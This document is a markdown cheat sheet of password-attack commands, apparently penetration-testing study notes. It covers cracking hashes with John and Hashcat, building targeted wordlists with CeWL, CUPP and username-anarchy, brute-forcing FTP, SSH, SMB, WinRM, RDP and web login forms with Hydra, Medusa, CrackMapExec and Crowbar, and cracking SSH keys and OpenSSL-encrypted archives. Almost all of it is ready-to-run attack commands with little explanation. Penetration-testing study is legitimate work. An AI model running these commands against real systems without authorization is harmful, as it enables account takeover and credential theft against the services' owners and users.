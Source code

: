 # Passwords Attack
## Hash Identifier
```bash
$ hash-identifier
```

## Crack Password
### John The Ripper
```bash
$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt`
```

### Hashcat
```bash
$ hashcat -m 3200 -a 0 -o found.txt passwd.txt /usr/share/wordlists/rockyou.txt

# 1000 NTLM hashes
# 5600 NTLMv2 hashes
# 13100 Kerberos TGS
```

## Password Mutations
```bash
$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

```bash
$ ls /usr/share/hashcat/rules/
```

# Custom Wordlists
## CeWL
We can now use another tool called CeWL to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (-d), the minimum length of the word (-m), the storage of the found words in lowercase (--lowercase), as well as the file where we want to store the results (-w).


```bash
$ cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```
   - `-d minimum word length`
   - `-m maximum word length`
   - `--lowercase all words are lowercase`
   - `-w output file`

## CUPP
```bash
$ cupp -i
```

## Custom list of Usernames
```bash
$ ./username-anarchy -i /home/ltnbob/names.txt 
$ ./username-anarchy Bill Gates > bill.txt
```

## Default Passwords
**Credential Stuffing - Hydra**
There are various databases that keep a running list of known default credentials. One of them is the (DefaultCreds-Cheat-Sheet)[https://github.com/ihebski/DefaultCreds-cheat-sheet]. Here is a small excerpt from the entire table of this cheat sheet:

This is a simplified variant of brute-forcing because only composite usernames and the associated passwords are used.
```bash
$ hydra -C <user_pass.list> <protocol>://<IP>
```

# Services
`Note: Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.`

## Hydra 
```bash
$ hydra -L user.list -P password.list <protocol>://<IP> -t 48 -p <port>

- L user list 
- l single username 
- P pass list
- p single password
- t <num> threads
- p <port>
```

## FTP
```bash
$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 

$ hydra -L user.list -P password.list ftp://<IP> -s 21
```

## SSH
```bash
$ hydra -L user.list -P password.list ssh://<IP>
```

## SMB
```bash
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

$ hydra -L user.list -P password.list smb://10.129.42.197

$ msf6 > use auxiliary/scanner/smb/smb_login
```

## WinRM
```bash
$ crackmapexec winrm <IP> -u user.list -p password.list
```

## RDP
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
$ hydra -L user.list -P password.list rdp://10.129.42.197`
```

# Login Attacks
## Default Passwords
```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

## Username/Password Attack
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

## Username Brute Force
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

## Brute Forcing Forms
In this situation there are only two types of http modules interesting for us:

- `http[s]-{head|get|post}`
- `http[s]-post-form`
The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like .php or .aspx and others.

To decide which module we need, we have to determine whether the web application uses GET or a POST form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form.


```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

- First: url
- Second: parameters to POST
- Third: form name


# Protected Files
## Cracking with John
```bash
$ locate *2john*
```

```bash
$ ssh2john.py SSH.private > ssh.hash
```

## Cracking OpenSSL Encrypted Archives
```bash 
$ file GZIP.gzip 

GZIP.gzip: openssl enc'd data with salted password
```

### Using a for-loop to Display Extracted Contents
```bash
$ for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```
